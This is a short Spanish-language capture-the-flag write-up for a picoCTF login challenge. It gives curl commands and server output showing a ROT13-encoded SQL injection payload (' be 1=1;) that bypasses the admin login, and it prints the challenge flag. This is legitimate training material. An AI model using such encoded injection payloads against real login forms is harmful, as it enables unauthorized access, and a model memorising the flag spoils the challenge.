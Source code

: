 ## Objetivo 
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

## Solución
```bash
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=admin&debug=1"
<pre>password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
</pre><h1>Login failed.</h1>root@DESKTOP-8T8TJ1H:~#
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=' be 1=1;&debug
=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>root@DESKTOP-8T8TJ1H:~#
root@DESKTOP-8T8TJ1H:~#
```
## Notas
la pagina aplicaba rot13 a la contraseña ingresada para modificarla y evitar sql injection.

## Referencias
https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=bnF6dmE
https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=JyBvciAxPTE7